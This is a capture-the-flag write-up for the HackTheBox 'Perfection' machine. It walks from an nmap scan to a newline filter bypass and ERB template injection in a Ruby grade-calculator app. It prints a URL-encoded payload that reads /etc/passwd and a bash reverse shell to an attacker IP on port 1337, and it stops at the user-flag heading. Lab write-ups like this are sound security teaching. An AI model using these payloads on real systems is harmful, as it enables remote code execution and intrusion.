 # Perfection
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25ccf1b-8041-48e5-9d09-020a945528ef)


## Lessons Learned:
- Exploiting WEBrick 1.7.0
- Executing ERB or Ruby Code Execution.

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.253 --min-rate 1000                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 20:39 PDT
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

1. Based from the nmap results above, the machine runs a web application at port 80 and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa0e65bb-d7f4-4cef-ac2a-6f97fb41f177)


2. Scrolling down to the footer section, we identified the web server used is **WEBrick** which is a RUBY library.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/deb7b11b-a64a-47b2-a6b1-44b2819fb424)


3. Searching on the internet about vulns found in **WEBrick 1.7.0** resulting to none.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/29519086-e07e-46de-aae0-af2cfb55c438)


4. Scanning for subdomain and directories also resulting to none. However our interest should be at the **weight grade calculation** feature.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e3e3123-8c34-4a6d-995e-0ecffda31a1c)


5. After sent normal input, seems it just calculate our grades normally. Nothing special at client-side.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2f3a453e-a418-47a1-90b7-9cff9ec31e83)


6. Tried to execute client-side attack, the webapp reflects us **Malicious Input Blocked**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/26e43bd2-e5a9-4a3a-8cf6-8e90ffccc596)


7. Let's use repeater for further testing.
8. The reflect message is caused because I input the malicious script/code at the **category** column.
9. This time I tried to send `;id ` but encode it with URL.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48782621-d8df-40c9-bce7-ecac7e8ee39c)


10. It's still blocked.
11. Let's try to send non-malicious URL encoded newline (\n) to test whether it executes encoded URL.

> Sending %0a

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a26e2d7d-7293-4982-866c-2a7258db9e99)


12. It executed, it's a finding then.
13. Great! Now our interest focused on finding the correct ruby command injection or SSTI payloads.
14. Long story short, found a repo which lists all the ruby code execution payloads.

#### NOTES:

```
I dropped all the useful links at the bottom of this MD file.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48adb320-33a2-449f-8675-753f5c0ee33c)

 
15. Nice, let's use the **read file** payload and encode it in URL format.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10119366-43a3-4657-8968-73a25330e3a1)


> pwn%0a<%25%3d+File.open('/etc/passwd').read+%25>

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9c88067-33a6-4ddf-bb80-ee4ee3dee672)



#### NOTES:

```
%0a is needed, because it acts as a delimiter.
```

16. Amazing! Let's try to do reverse shell so it's easier for us to get the user flag.
17. This time let's use the system() code execution payload.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85217040-bdf2-46d3-8b8f-ba80c927bbdb)


```txt
Bash Reverse Shell Payload:
bash -i >& /dev/tcp/10.10.14.24/1337 0>&1

Wrapped it with Ruby Code Execution Payload:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

URL ENCODE IT:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

FULL PAYLOAD:
pwn%0a<%25%3d+system("bash+-c+'exec+bash+-i+>%26+/dev/tcp/10.10.14.24/1337+0>%261'")+%25>
```

18. All we need to do now is set a listener on port 1337 then send the payload using repeater.

> RESULT - Got shell as Susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a38add66-1558-4a42-a107-6e53a39c4389)


> GETTING THE USER FLAG




## IMPORTANT LINKS

```
https://security.snyk.io/package/rubygems/webrick
https://portswigger.net/kb/issues/00100f00_ruby-code-injection
https://www.stackhawk.com/blog/command-injection-ruby/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
```
